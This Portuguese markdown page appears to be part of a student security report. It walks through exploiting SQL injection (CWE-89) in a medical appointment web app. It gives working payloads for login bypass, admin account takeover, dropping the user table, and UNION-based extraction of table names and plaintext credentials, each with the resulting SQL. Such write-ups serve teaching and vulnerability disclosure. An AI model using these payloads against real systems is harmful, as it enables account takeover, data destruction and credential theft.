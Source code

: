 ## CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')
- https://cwe.mitre.org/data/definitions/89.html

**Ver descrição, score e solução no [report.md](../report.md#cwe-89-improper-neutralization-of-special-elements-used-in-an-sql-command-sql-injection).**

---
# Exploração da vulnerabilidade

## Ataque: login sem credenciais válidas

### Passo 1
Aceder à página de login e inserir um email existente e no campo 'Password' o seguinte excerto de código SQL:
```sql
' or 1=1 ) -- //
```

![CWE-89](images/CWE-89_image1.png)

### Passo 2
Submeter o formulário de login.

![CWE-89](images/CWE-89_image2.png)

### Resultado
É executado o seguinte comando SQL:
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '' OR 1=1 ) -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND 1
```
equivalente a
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' )
```

O atacante entra na conta, mesmo desconhecendo a password da vítima.

<br>

## Ataque: login na conta do administrador
### Conhecimento prévio 
O atacante sabe que é provável que o utilizador com id = 1 seja um administrador do sistema.

### Passo 1
Aceder à página de login e inserir um email existente e, no campo 'Password', o seguinte excerto de código SQL:
```sql
') or 1=1 -- //
```

### Passo 2
Submeter o formulário de login.

### Resultado
```sql
SELECT * FROM app_user WHERE ( email = '[RANDOM_MAIL]' ) AND ( password_ = '') OR 1=1 -- // ) "
```
equivalente a
```sql
SELECT * FROM app_user WHERE 1
```
equivalente a
```sql
SELECT * FROM app_user
```

![CWE-89](images/CWE-89_image3.png)

O atacante entra na conta do primeiro utilizador registado na tabela 'app_user' (correspondente ao **admin**), mesmo desconhecendo a sua password.

No caso, a conta do admin tem acesso a uma página de administração, que permite fazer *queries* à base de dados.

O atacante consegue aceder e modificar o conteúdo da base de dados.

<br>

## Ataque: apagar a tabela com os utilizadores
### Conhecimento prévio
O atacante sabe que a tabela 'app_user' pode conter os utilizadores registados no sistema.

Esse nome é o predefinido por algumas aplicações web, por exemplo, as que sdesenvolvidas em Django (outra framework web Python).

### Passo 1
Aceder à página de registo de um utilizador (não doutor) e inserir num dos campos o seguinte excerto de código SQL:
```sql
'); DROP TABLE app_user; -- //
```

>**Nota**: A ordem das colunas no INSERT não é conhecida, pelo que o atacante deve testar os vários campos, até conseguir a SQL injection. Neste caso concreto, funcionaria no campo 'First Name'/'Last Name'.

### Passo 2
Submeter o formulário de registo.

![CWE-89](images/CWE-89_image4.png)

### Resultado
É executado o seguinte comando SQL:
```sql
INSERT INTO app_user (email, password_, name_) VALUES ('random@random.com', 'Random1234', ''); DROP TABLE app_user; -- //
```
equivalente a
```sql
DROP TABLE app_user;
```

![CWE-89](images/CWE-89_image5.png)

Os utilizadores não conseguem autenticar-se no sistema e aqueles que têm uma sessão iniciada não têm acesso a algumas funcionalidades, nomeadamente a listagem dos doutores (vale recordar que esses também são utilizadores).

<br>

## Ataque: visualizar a tabela com utilizadores/doutores, desconhecendo o nome da mesma

### Passo 1
Aceder à página *Doctors* e inserir no campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //
```

### Passo 2
Submeter o formulário de pesquisa.

### Resultado intermédio
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table' -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
equivalente a
```sql
SELECT sql,1,1 FROM sqlite_master WHERE type='table'
```
O atacante fica a conhecer o nome das tabelas da base de dados.

![CWE-89](images/CWE-89_image6.png)

### Passo 3
Inserir no mesmo campo de pesquisa o seguinte excerto de código SQL:
```sql
1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //
```

### Passo 4
Submeter novamente o formulário de pesquisa.

### Resultado
É executado o seguinte comando SQL:
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE app_user.name_ LIKE '%1' AND 1=2 UNION SELECT name_, email, password_ FROM app_user -- //%'
```
equivalente a
```sql
SELECT app_user.name_, app_user.email, doctor.speciality \
FROM (doctor JOIN app_user ON doctor.id = app_user.id) \
WHERE 0 UNION SELECT name_, email, password_ FROM app_user
```
equivalente a
```sql
SELECT name_, email, password_ FROM app_user
```

![CWE-89](images/CWE-89_image7.png)

O atacante fica a conhecer as credenciais de todos utilizadores, incluindo o admin e os doutores. Como as passwords estão em [*plain text*](CWE-257.md), consegue apoderar-se de qualquer conta.
